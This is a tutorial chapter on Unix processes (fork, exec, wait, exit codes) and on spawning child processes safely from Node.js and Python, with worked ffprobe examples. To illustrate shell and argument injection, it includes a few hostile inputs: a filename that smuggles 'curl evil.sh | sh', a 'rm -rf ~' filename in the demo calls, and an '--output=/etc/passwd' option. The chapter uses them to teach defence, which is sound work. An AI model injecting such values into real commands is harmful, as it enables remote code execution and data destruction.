

# Processes

> **Module 04 · Operating Systems** · Prerequisites: [Operating Systems Fundamentals](01-Operating-Systems-Fundamentals.md) · Next: [Threads](03-Threads.md)

---

## ⏱ If You Only Have 2 Minutes

- A **process** is a running program plus everything the kernel tracks for it: a private virtual address space, a file descriptor table, a PID and parent PID, credentials (UID, GID, capabilities), `argv` and environment, current directory, signal handlers, resource limits, and one or more threads. Linux stores this in a `task_struct`.
- Unix creates processes in two steps. `fork()` clones the caller, and `exec()` replaces the program inside the clone. Between the two, the child sets up redirections, the working directory and permissions.
- `fork()` returns **twice**: `0` in the child, the child's PID in the parent. Memory is shared **copy-on-write**, so forking a 2 GB process does not copy 2 GB — but it does copy the page tables.
- `exec()` keeps the PID, open file descriptors (unless marked close-on-exec), and the current directory. It replaces the code, heap and stack, and resets caught signals to their defaults.
- Exit status: `0` means success. A process killed by signal *N* shows up in the shell as **128 + N** (137 = `SIGKILL`, 143 = `SIGTERM`), in Node as `code === null, signal === "SIGKILL"`, and in Python as `returncode == -9`.
- Node's `child_process.fork()` is **not** `fork(2)`. It starts a fresh Node process with an IPC channel.
- Never pass user input to `shell: true` (Node) or `shell=True` (Python). Pass an **argument array**: no shell runs, so `;`, `$(…)` and backticks are just characters.
- Every child process needs a **timeout**, an **output cap**, and code that handles three outcomes: could not start (`ENOENT`), exited non-zero, or killed by a signal.

---

## 1. What It Is and Why It Exists

A **program** is a file on disk: `/usr/bin/node` or `/usr/bin/python3`. A **process** is one running instance of a program. Ten Node processes can run the same program file, and each one has its own memory, open files and identity.

**Analogy:** a recipe and a cook. The recipe (program) sits in a book. Each cook (process) works at a separate station with their own counter space (memory), their own order tickets (file descriptors), and a badge saying what they may touch (credentials). Two cooks can follow the same recipe without ever touching each other's ingredients.

**The problem it solves.** The process is the kernel's unit of **isolation and accounting**:

- **Memory isolation.** A bug in one process cannot overwrite another's memory, because each has its own page tables.
- **Fault isolation.** A segmentation fault kills one process. Its parent sees an exit status and can restart it.
- **Permissions.** The kernel checks the process's UID and capabilities on every file open and every privileged action.
- **Resource accounting and limits.** CPU time, memory, open files and child counts are measured and capped per process (and per cgroup).

Backend code creates processes more often than you might think: a supervisor starting your server, `gunicorn` or `cluster` forking workers, a handler calling `ffmpeg`, `git` or `pg_dump`, and test runners spawning one process per file.

---

## 2. How It Works

### What a process owns

| Resource | What it is | Where to see it |
|---|---|---|
| PID, PPID | Its ID and its parent's ID | `/proc/<pid>/status` (`Pid`, `PPid`) |
| Address space | Code, heap, stacks, shared libraries, memory maps | `/proc/<pid>/maps`, `/proc/<pid>/smaps_rollup` |
| File descriptor table | Small integers pointing to open files, sockets, pipes | `ls -l /proc/<pid>/fd` |
| Credentials | Real/effective UID and GID, supplementary groups, capabilities | `/proc/<pid>/status` (`Uid`, `Gid`, `CapEff`) |
| `argv` and environment | Command line and `KEY=value` strings | `/proc/<pid>/cmdline`, `/proc/<pid>/environ` |
| Current and root directory | Base for relative paths | `/proc/<pid>/cwd`, `/proc/<pid>/root` |
| Signal dispositions and mask | Which signals are caught, ignored or blocked | `/proc/<pid>/status` (`SigCgt`, `SigIgn`, `SigBlk`) |
| Resource limits | Max open files, stack size, core size… | `/proc/<pid>/limits` |
| Namespaces and cgroup | What it can see and how much it may use | `/proc/<pid>/ns/`, `/proc/<pid>/cgroup` |
| Threads | One or more schedulable tasks | `/proc/<pid>/task/` |

### The process control block: `task_struct`

Textbooks call the kernel's record of a process the **process control block (PCB)**. In Linux it is `struct task_struct` (defined in `include/linux/sched.h`). Linux has one `task_struct` per **thread**; a "process" is a group of tasks that share the same resources. The `task_struct` mostly holds pointers to shared structures:

- `mm` → the memory descriptor (`mm_struct`): page tables and the list of mapped regions.
- `files` → the file descriptor table (`files_struct`).
- `fs` → current and root directory.
- `cred` → credentials.
- `signal` and `sighand` → shared signal state and handlers.
- `nsproxy` → the namespaces the task lives in.

It also holds the scheduling state (runnable, sleeping…), the saved CPU registers used when the task is switched out, and the parent and children links. Creating a process means creating a `task_struct` whose pointers lead to **new copies** of these structures. Creating a thread means creating one whose pointers lead to the **same** ones. That is the whole difference, and [Threads](03-Threads.md) builds on it.

### `fork` + `exec` + `wait`



1. **`fork()`** creates a near-identical child. The child gets a copy of the parent's file descriptor table, so both point at the **same open files** (including the same file offset). The parent gets the child's PID as the return value; the child gets `0`.
2. **Set-up in the child.** This is the reason fork and exec are separate. The child can rewire its own stdin/stdout (`dup2`), change directory, set resource limits, or switch to an unprivileged user, using normal system calls, before the new program starts.
3. **`execve(path, argv, envp)`** replaces the program. The kernel throws away the old memory map, loads the new executable, and starts it at its entry point. The PID does not change.
4. **`wait4()` / `waitpid()`** in the parent collects the exit status. Until the parent does this, the dead child stays in the process table as a **zombie**. [Process Lifecycle](05-Process-Lifecycle.md) covers states, zombies and orphans.

### Copy-on-write

After `fork()`, parent and child page tables point to the same physical pages, all marked read-only. When either one writes to a page, the CPU raises a page fault, and the kernel copies just that page and makes it writable for the writer. So `fork()` is fast even for a large process, and a child that immediately calls `exec()` copies almost nothing.

It is not free, though. The kernel still copies the **page tables**, which are proportional to how much memory is mapped, so forking a process with a 20 GB heap takes noticeable time. And if the parent keeps writing after the fork, pages are duplicated one by one. Redis's background save (`BGSAVE`) forks the server for a snapshot; under heavy writes, memory use can grow towards double. [Virtual Memory](24-Virtual-Memory.md) explains the page-table side.

### What `exec` keeps and what it resets

| Kept across `execve` | Reset or replaced |
|---|---|
| PID and PPID | Code, heap, stack and all memory mappings |
| File descriptors **without** `FD_CLOEXEC` | File descriptors **with** `FD_CLOEXEC` are closed |
| Current directory, root, umask | Caught signals go back to the default action |
| Resource limits, cgroup, namespaces | All other threads are destroyed |
| Ignored signals stay ignored; signal mask | Environment and `argv` — replaced by what you pass |
| UID/GID (unless the binary is set-user-ID) | |

Modern runtimes open their own descriptors with close-on-exec. libuv uses `O_CLOEXEC`, and since Python 3.4 new file descriptors are non-inheritable by default ([PEP 446](https://peps.python.org/pep-0446/)), and `subprocess` closes extra descriptors (`close_fds=True`) by default.

### Cheaper alternatives: `vfork` and `posix_spawn`

`vfork()` creates a child that **borrows** the parent's memory, with no page-table copy, and suspends the parent until the child calls `exec` or exits. It is fast and dangerous: the child must do almost nothing before `exec`. `posix_spawn()` is a library function that packages "fork, apply this list of file actions, exec" into one call; glibc implements it with a `clone()` that behaves like `vfork`. Runtimes do the fork-and-exec in C for you, choosing a fast path where it is safe, so no JavaScript or Python code runs in the child before `exec`.

### The process tree, and how to observe it

Every process except PID 1 has a parent. On a host, PID 1 is usually `systemd`; in a container it is your entrypoint (or a small init such as `tini`).

```bash
ps -o pid,ppid,user,stat,rss,cmd --forest -e      # the tree with memory (RSS, KiB)
ls -l /proc/7/fd                                   # what the server has open
strace -f -e trace=process python3 -c 'import subprocess; subprocess.run(["true"])'
```

Illustrative output:

```text
    PID    PPID USER     STAT   RSS CMD
      1       0 app      Ss     988 /sbin/tini -- node dist/server.js
      7       1 app      Sl   98312 node dist/server.js
    214       7 app      S    23880  \_ ffprobe -v error -print_format json -show_format -i /srv/uploads/a.mp4

lr-x------ 1 app app 64 Nov 24 10:02 0 -> /dev/null
l-wx------ 1 app app 64 Nov 24 10:02 1 -> pipe:[391022]
l-wx------ 1 app app 64 Nov 24 10:02 2 -> pipe:[391023]
lrwx------ 1 app app 64 Nov 24 10:02 18 -> socket:[391101]
lrwx------ 1 app app 64 Nov 24 10:02 19 -> anon_inode:[eventpoll]

execve("/usr/bin/python3", ["python3", "-c", "import subprocess; subprocess.r"...], 0x7ffc... /* 21 vars */) = 0
vfork(strace: Process 4122 attached
 <unfinished ...>
[pid  4122] execve("/usr/local/bin/true", ["true"], 0x7ffd... /* 21 vars */) = -1 ENOENT (No such file or directory)
[pid  4122] execve("/usr/bin/true", ["true"], 0x7ffd... /* 21 vars */) = 0
[pid  4121] <... vfork resumed>)        = 4122
[pid  4122] exit_group(0)               = ?
[pid  4122] +++ exited with 0 +++
wait4(4122, [{WIFEXITED(s) && WEXITSTATUS(s) == 0}], 0, NULL) = 4122
```

In the `strace` output, the child searches `PATH` by trying `execve` in each directory until one succeeds, then the parent reaps it with `wait4`. Depending on the runtime, C library and kernel versions you may see `clone` or `clone3` instead of `vfork`; the shape is the same.

---

## 3. Key Concepts

### Exit codes and wait status

The kernel reports either "exited with code *N*" (0–255) or "killed by signal *S*". Different layers encode that differently:

| Situation | Shell `$?` | Node `close`/`exit` event | Python `returncode` |
|---|---|---|---|
| Success | `0` | `code = 0, signal = null` | `0` |
| Program reported failure | `1`–`125` | `code = N, signal = null` | `N` |
| Shell: found but not executable / not found | `126` / `127` | — (Node emits `error` with `EACCES` / `ENOENT`) | — (raises `PermissionError` / `FileNotFoundError`) |
| Killed by `SIGTERM` (15) | `143` | `code = null, signal = "SIGTERM"` | `-15` |
| Killed by `SIGKILL` (9), e.g. OOM killer | `137` | `code = null, signal = "SIGKILL"` | `-9` |

Two lessons. First, "could not start" is not an exit code: no process ever ran, so handle it as a separate error. Second, a container reporting exit code 137 got that number from the runtime applying the shell convention, not from your program.

### Node's `child_process` API

| Function | Shell? | Output | Use for |
|---|---|---|---|
| `spawn(file, args)` | No | Streams | Long-running children, large or streaming output |
| `execFile(file, args)` | No | Buffered, capped by `maxBuffer` (default 1 MiB) | Short commands with small output |
| `exec(command)` | **Yes**, `/bin/sh -c` | Buffered | Only fixed strings you wrote yourself |
| `fork(modulePath)` | No | IPC channel + streams | Another Node process you control (this is how `cluster` works) |
| `spawnSync`, `execFileSync`, `execSync` | Same as above | Buffered | Scripts and CLIs only: they **block the event loop** until the child exits |

`spawn` and `execFile` accept `cwd`, `env`, `uid`/`gid`, `timeout`, `killSignal`, `detached`, and `stdio`. Passing `shell: true` to `spawn` or `execFile` turns them into the risky form.

### Python's `subprocess` API

| Function | Behaviour |
|---|---|
| `subprocess.run(args, …)` | Start, wait, return `CompletedProcess`. `capture_output=True`, `text=True`, `timeout=…`, `check=True` (raise on non-zero) |
| `subprocess.Popen(args, …)` | Low-level handle: stream output, send signals, poll |
| `asyncio.create_subprocess_exec(*args)` | Non-blocking version for asyncio and FastAPI `async def` handlers |

`shell=False` is the default. One runtime difference matters: `subprocess.run()` blocks the calling thread until the child exits. In an `async def` FastAPI endpoint that blocks the event loop, so use `asyncio.create_subprocess_exec` there (or a plain `def` endpoint, which FastAPI runs in a thread pool).

### Shell injection and argument injection

With a shell, the command is a **string that gets parsed**:

```ts
exec(`ffprobe -i ${filename}`);   // filename = "a.mp4; curl evil.sh | sh"  →  two commands run
```

Without a shell, arguments go straight into the `argv` array of `execve`. A filename containing `;`, `|`, `$(…)` or spaces is one argument, nothing more. That removes **shell injection** entirely.

It does not remove **argument injection**. If the value starts with `-`, the program may read it as an option: a "filename" of `--output=/etc/passwd` is a classic. Defences: validate input against an allow-list (for example, generate the stored filename yourself), put the value behind a flag that takes a value (`-i <path>`), or use `--` (end of options) when the program supports it.

### Environment and descriptor inheritance

By default a child inherits the **whole environment**, including `DATABASE_URL`, cloud credentials and API keys. Any tool you run, and anything it runs, can read them from `/proc/self/environ`. Pass an explicit, minimal `env`.

A descriptor without close-on-exec is inherited across `exec`. A typical incident: a long-running child inherits the server's **listening socket**. After the server restarts, the old port is still held by the child, and the new server fails with `EADDRINUSE`. Modern runtimes prevent this by default; native addons and old libraries sometimes do not.

### Forking a multi-threaded process

`fork()` copies **only the calling thread**. If another thread held a lock (in `malloc`, in a logging library, in OpenSSL) at that moment, the child inherits a locked lock that no thread will ever release, and it can deadlock. This is why:

- Node exposes no raw `fork()` to JavaScript: V8 and libuv always run several threads.
- Python 3.12 emits a `DeprecationWarning` when `os.fork()` is called in a process that has other threads.
- Python 3.14 changed the default `multiprocessing` start method on Linux from `fork` to `forkserver`.

The safe pattern is fork followed immediately by `exec`, which is what `spawn`, `execFile` and `subprocess` do.

---

## 4. Code Examples

Scenario: an upload service reads a video's metadata with `ffprobe`. The filename came from a user, the tool can hang on malformed files, and its output could be large.

### Node.js / TypeScript

```ts
// No npm packages — Node.js 22+, TypeScript 5, ESM. Needs ffprobe (from ffmpeg) on PATH.
import { spawn } from "node:child_process";

interface RunResult {
  code: number | null; signal: NodeJS.Signals | null;
  stdout: string; stderr: string; timedOut: boolean; truncated: boolean;
}

export function run(file: string, args: string[], timeoutMs: number, maxBytes = 1 << 20): Promise<RunResult> {
  return new Promise((resolve, reject) => {
    // No shell: args go straight into execve()'s argv, so ";" or "$(...)" are just bytes.
    const child = spawn(file, args, {
      stdio: ["ignore", "pipe", "pipe"], // no stdin: a child waiting for input would hang
      env: { PATH: "/usr/local/bin:/usr/bin:/bin", LANG: "C.UTF-8" }, // do not leak secrets
      detached: true, // new process group, so we can also kill anything the child spawns
    });
    const out: Buffer[] = [];
    const err: Buffer[] = [];
    let bytes = 0, timedOut = false, truncated = false;

    const killGroup = (sig: NodeJS.Signals) => {
      try { process.kill(-child.pid!, sig); } catch { /* group already gone */ }
    };
    const timer = setTimeout(() => {
      timedOut = true;
      killGroup("SIGTERM"); // let it clean up first...
      setTimeout(() => killGroup("SIGKILL"), 2_000).unref(); // ...then insist
    }, timeoutMs);

    const collect = (sink: Buffer[]) => (chunk: Buffer) => {
      bytes += chunk.length;
      if (bytes > maxBytes) { truncated = true; killGroup("SIGKILL"); return; }
      sink.push(chunk);
    };
    child.stdout.on("data", collect(out));
    child.stderr.on("data", collect(err));

    // 'error' = the process never started (ENOENT, EACCES). There is no exit code.
    child.once("error", (e) => { clearTimeout(timer); reject(e); });
    // 'close' waits for exit AND for the pipes to drain, so no output is lost.
    child.once("close", (code, signal) => {
      clearTimeout(timer);
      resolve({ code, signal, timedOut, truncated,
        stdout: Buffer.concat(out).toString("utf8"), stderr: Buffer.concat(err).toString("utf8") });
    });
  });
}

export async function probe(path: string): Promise<unknown> {
  // "-i <path>": the value is bound to -i, so a name like "--foo" is not parsed as an option.
  const args = ["-v", "error", "-print_format", "json", "-show_format", "-i", path];
  let r: RunResult;
  try {
    r = await run("ffprobe", args, 10_000);
  } catch (e) {
    if ((e as NodeJS.ErrnoException).code === "ENOENT") throw new Error("ffprobe is not installed");
    throw e;
  }
  if (r.timedOut) throw new Error("ffprobe timed out");
  if (r.truncated) throw new Error("ffprobe output exceeded the limit");
  if (r.signal) throw new Error(`ffprobe killed by ${r.signal}`); // e.g. SIGKILL from the OOM killer
  if (r.code !== 0) throw new Error(`ffprobe exited ${r.code}: ${r.stderr.slice(-500)}`);
  return JSON.parse(r.stdout);
}

console.log(await probe("/srv/uploads/clip; rm -rf ~.mp4")); // hostile name: harmless, just "file not found"
```

### Python

```python
# No pip packages — Python 3.12+ (stdlib only). Needs ffprobe (from ffmpeg) on PATH.
import json
import signal
import subprocess

SAFE_ENV = {"PATH": "/usr/local/bin:/usr/bin:/bin", "LANG": "C.UTF-8"}


class CommandError(Exception):
    pass


def probe(path: str, timeout_s: float = 10.0) -> dict:
    # A list with shell=False (the default): execve() receives argv as-is, no shell parsing.
    args = ["ffprobe", "-v", "error", "-print_format", "json", "-show_format", "-i", path]
    try:
        result = subprocess.run(
            args,
            stdin=subprocess.DEVNULL,
            capture_output=True,  # reads both pipes together, so a full pipe cannot deadlock
            text=True,
            timeout=timeout_s,  # on expiry: SIGKILL the child, reap it, raise TimeoutExpired
            env=SAFE_ENV,
            check=False,  # we inspect returncode ourselves to tell exit codes from signals
        )
    except FileNotFoundError:
        raise CommandError("ffprobe is not installed") from None  # execve failed: no process
    except subprocess.TimeoutExpired:
        raise CommandError(f"ffprobe timed out after {timeout_s}s") from None

    if result.returncode < 0:  # negative = killed by that signal number
        raise CommandError(f"ffprobe killed by {signal.Signals(-result.returncode).name}")
    if result.returncode != 0:
        raise CommandError(f"ffprobe exited {result.returncode}: {result.stderr[-500:]}")
    return json.loads(result.stdout)


if __name__ == "__main__":
    try:
        print(probe("/srv/uploads/clip; rm -rf ~.mp4"))  # hostile name is one harmless argument
    except CommandError as exc:
        print(f"probe failed: {exc}")
```

The same call from an `async def` handler, without blocking the event loop and with a process-group kill:

```python
import asyncio
import json
import os
import signal

SAFE_ENV = {"PATH": "/usr/local/bin:/usr/bin:/bin", "LANG": "C.UTF-8"}


async def probe_async(path: str, timeout_s: float = 10.0) -> dict:
    proc = await asyncio.create_subprocess_exec(
        "ffprobe", "-v", "error", "-print_format", "json", "-show_format", "-i", path,
        stdin=asyncio.subprocess.DEVNULL,
        stdout=asyncio.subprocess.PIPE,
        stderr=asyncio.subprocess.PIPE,
        env=SAFE_ENV,
        start_new_session=True,  # setsid(): the child leads its own process group
    )
    try:
        stdout, stderr = await asyncio.wait_for(proc.communicate(), timeout_s)
    except TimeoutError:
        os.killpg(proc.pid, signal.SIGKILL)  # kill the child and anything it started
        await proc.wait()  # reap it, or it lingers as a zombie
        raise RuntimeError(f"ffprobe timed out after {timeout_s}s") from None
    if proc.returncode != 0:
        raise RuntimeError(f"ffprobe failed ({proc.returncode}): {stderr.decode()[-500:]}")
    return json.loads(stdout)
```

**Runtime differences to notice:** Node's `spawn` is always asynchronous (libuv reaps the child and emits `close` on the event loop), so it is safe inside a request handler. Python's `subprocess.run()` blocks the thread, which is fine in a script or a `def` endpoint but not in a coroutine. And `subprocess.run()`'s timeout goes straight to `SIGKILL` for the direct child only; the Node helper above sends `SIGTERM` first and signals the whole group.

---

## 5. Production Concerns

- **Bound how many children run at once.** Spawning one process per request turns a traffic spike into a fork storm: hundreds of `ffprobe` processes, each with its own memory, competing for the same CPU quota and the cgroup's `pids.max`. Put a [semaphore](15-Semaphore.md) or a job queue in front of the spawn.
- **Kill the whole tree.** A timeout that kills only the direct child leaves grandchildren running and holding the pipes open, so your "wait for output" never finishes. Start children in their own process group (`detached: true` in Node, `start_new_session=True` in Python) and signal the group with a negative PID (`process.kill(-pid)`, `os.killpg`). Be aware that a detached group is **not** killed automatically if your server crashes, so clean up on shutdown.
- **Always reap.** A child that exits but is never waited for stays a zombie and keeps its PID. Node and `subprocess` reap for you; a raw `os.fork()` or a `Popen` you forget to `wait()` does not. If your app is PID 1 in a container, it must also reap orphans. See [Process Lifecycle](05-Process-Lifecycle.md).
- **Pipes have a size.** A Linux pipe buffers 64 KiB by default ([pipe(7)](https://man7.org/linux/man-pages/man7/pipe.7.html)). If you read stdout until EOF while the child is blocked writing a lot to stderr, both sides wait forever. Read both streams concurrently (`communicate()`, `capture_output`, or listeners on both in Node).
- **Least privilege.** Pass a minimal `env`, set `cwd` to a scratch directory, run the child as a different user (`uid`/`gid` in Node; `user=`/`group=` in Python 3.9+) when it parses untrusted files, and consider a separate container for tools such as ImageMagick that have a long CVE history.
- **What to log and measure.** Log the executable, a redacted argument list, duration, exit code or signal, and the last few hundred bytes of stderr. Count failures by outcome (`enoent`, `timeout`, `signal`, `nonzero`). A rise in `SIGKILL` outcomes usually means the children are hitting the container memory limit.

---

## 6. Common Mistakes

- **Building a shell string from user input** — ``exec(`convert ${name} out.png`)`` or `shell=True` with an f-string lets an attacker run any command — pass an argument array with no shell, and validate values that could look like options.
- **No timeout** — a tool that hangs on a malformed file pins a request, a worker and a process slot forever — set a timeout, then escalate from `SIGTERM` to `SIGKILL`.
- **Treating `code === null` as success or as "0"** — a child killed by a signal has no exit code in Node, and a negative one in Python — check the signal first, then the code.
- **Using `execSync` / `spawnSync` in a server** — the event loop stops until the child exits, so every other request waits — use the async API, or move the work to a queue.
- **Calling `Popen(...).wait()` with `stdout=PIPE`** — once the child writes more than the pipe buffer, it blocks, and `wait()` never returns — use `communicate()` or `run(capture_output=True)`.
- **Inheriting the full environment** — every child can read the database password and cloud keys — pass an explicit `env` with only what the tool needs.
- **Thinking `child_process.fork()` is Unix `fork()`** — expecting the child to share the parent's in-memory state — it is a brand-new Node process that starts your module from the top; share data via messages.

---

## 7. Comparison Table

| | `fork` then `exec` | `vfork` / `posix_spawn` | `fork` only (pre-fork) | Node `child_process.fork` |
|---|---|---|---|---|
| What runs in the child | A different program | A different program | The same program, continuing after `fork()` | A new Node process running your module |
| Memory set-up | Copy-on-write, page tables copied | Parent's memory borrowed, no copy | Copy-on-write; pages shared until written | Fresh V8 heap, nothing shared |
| Speed for a large parent | Slower (page-table copy) | Fast | Fast start, but writes cause copying | Tens of milliseconds (runtime start-up) |
| Typical user | Shells, older code | glibc `posix_spawn`, runtimes' spawn paths | `gunicorn --preload`, Redis `BGSAVE`, PostgreSQL backends | `cluster`, custom Node worker processes |
| Risk | Locks held by other threads | Child must do almost nothing before `exec` | Unsafe with threads; shared sockets/connections | IPC messages are serialized copies |

---

## 8. Interview Questions

**[Junior] What is the difference between a program and a process?**
A program is an executable file on disk. A process is a running instance of it, with its own address space, file descriptors, PID, credentials and threads. The same program can run as many independent processes, and each gets its own memory and state. The kernel tracks each process in a `task_struct`.

**[Junior] What does `fork()` return, and why are `fork` and `exec` separate calls?**
`fork()` returns the child's PID in the parent and `0` in the child (or `-1` on failure). The split lets the child prepare its environment with ordinary system calls before the new program starts: redirect stdin/stdout with `dup2`, change directory, set limits, drop privileges. Shell pipelines and redirections are built exactly this way. `posix_spawn` packages the common cases into one call.

**[Mid] What is copy-on-write, and when is `fork()` not cheap?**
After `fork()`, parent and child share physical pages marked read-only; the first write to a page triggers a fault, and the kernel copies only that page. So forking does not copy the heap up front. It is still costly when the parent has a huge address space, because the page tables are copied, and when the parent keeps writing after the fork, because each touched page gets duplicated. Redis snapshots and pre-forked Python servers both feel this.

**[Mid] What happens to open file descriptors across `fork` and `exec`?**
After `fork`, the child has a copy of the descriptor table pointing to the same open file descriptions, so they share file offsets and socket state. Across `exec`, descriptors stay open unless they have the close-on-exec flag, in which case the kernel closes them. Modern runtimes set close-on-exec by default, which prevents children from accidentally holding listening sockets, database connections or files.

**[Mid] How do you safely run an external command from a web handler?**
Use the non-shell API with an argument array (`spawn`/`execFile`, `subprocess.run([...])`), validate inputs and guard against option-like values. Set a timeout with signal escalation, cap the output, pass a minimal environment, and use the async API so the event loop is not blocked. Handle the three outcomes separately: failed to start, non-zero exit, killed by signal. Finally, limit how many such children can run concurrently.

**[Senior] After a timeout you kill the child, but the request still hangs and processes pile up. Why?**
The child probably started its own children (a shell wrapper, or a tool that forks helpers). Killing the direct child leaves the grandchildren running; they inherited the stdout pipe, so the pipe never reaches EOF and your code waits for output forever. Start the child as the leader of a new process group or session and signal the whole group with a negative PID. Also make sure you still reap the direct child, and clean up groups during graceful shutdown.

**[Senior] Why is `fork()` in a multi-threaded process dangerous, and how do runtimes deal with it?**
Only the calling thread is copied. Any lock held by another thread at that instant is copied in the locked state, and no thread exists in the child to release it, so the child can deadlock in `malloc`, logging or TLS code. Runtimes either avoid raw fork entirely (Node does not expose it) or only use fork immediately followed by `exec`. Python warns when `os.fork()` is used with threads (3.12+), and 3.14 made `forkserver` the default `multiprocessing` start method on Linux.

**[Senior] A worker reports exit code 137 in Kubernetes, `-9` in a Python supervisor, and `signal: "SIGKILL"` in Node. Are these the same event?**
Yes: they are three encodings of "killed by signal 9". The shell and container runtimes report 128 + signal number, `subprocess` reports the negative signal number, and Node reports `code: null` with the signal name. `SIGKILL` cannot be caught, so the usual senders are the OOM killer (check `memory.events` and `OOMKilled`), a supervisor's hard timeout, or a grace period expiring after `SIGTERM`. The fix depends on which one, so logs should always record the signal, not just "failed".

---

## 9. Cheat Sheet

```text
Process owns   address space, fd table, PID/PPID, creds, argv/env, cwd, signal state, rlimits, threads
Linux          one task_struct per thread; process = tasks sharing mm, files, sighand
fork()         returns child PID in parent, 0 in child; memory copy-on-write; page tables copied
exec()         same PID; new code/heap/stack; CLOEXEC fds closed; caught signals → default
wait4()        collects exit status; unreaped child = zombie (ch 05)
Fast spawn     vfork / posix_spawn: no page-table copy; runtimes use fast paths in C
Exit status    0 ok; 126/127 shell can't exec / not found; 128+N killed by signal N
               137 SIGKILL (OOM), 143 SIGTERM; Node code=null+signal; Python returncode=-N
Node           spawn (stream) | execFile (buffer, maxBuffer 1 MiB) | exec (SHELL) | fork (new Node + IPC)
Python         run(args, capture_output, text, timeout, check) | Popen | asyncio.create_subprocess_exec
Safety         arg array, no shell; guard "-option" values; minimal env; timeout + TERM→KILL; output cap
Trees          detached:true / start_new_session=True → kill(-pid) / os.killpg
Pipes          64 KiB buffer: read stdout and stderr together (communicate)
Observe        ps --forest, /proc/<pid>/{status,fd,environ,limits}, strace -f -e trace=process
```

---

## Related Topics

- [Operating Systems Fundamentals](01-Operating-Systems-Fundamentals.md) — kernel vs user space, and containers as process trees
- [Threads](03-Threads.md) — tasks that share one process's resources
- [Process Lifecycle](05-Process-Lifecycle.md) — states, zombies, orphans and PID 1 in containers
- [Signals](29-Signals.md) — `SIGTERM`, `SIGKILL`, `SIGCHLD` and graceful shutdown
- [Inter Process Communication](28-Inter-Process-Communication.md) — pipes and sockets between parent and child
- [Virtual Memory](24-Virtual-Memory.md) — copy-on-write and page tables behind `fork()`
